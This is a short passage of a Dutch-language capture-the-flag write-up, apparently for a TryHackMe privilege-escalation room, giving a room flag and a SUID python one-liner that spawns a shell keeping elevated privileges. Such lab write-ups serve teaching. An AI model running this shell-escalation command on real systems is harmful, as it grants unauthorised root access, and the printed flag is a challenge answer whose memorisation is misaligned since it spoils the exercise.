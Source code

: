 #### Antwoord:
```
THM{pr1v1l3g3_3sc4l4t10n}
```

### Use the Python command found under the heading SUID.
Gebruik de site die we reeds vonden en zoek naar `SUID`.
Hier vind je een python command.

>[!Tip]
>Zie `python`

#### Resultaat:
![alt text](https://github.com/SvenvG0/SvenvG0/blob/main/images/SUID.png?raw=true)

#### Antwoord:
```
python -c 'import os; os.execl("/bin/sh", "sh", "-p")'
```
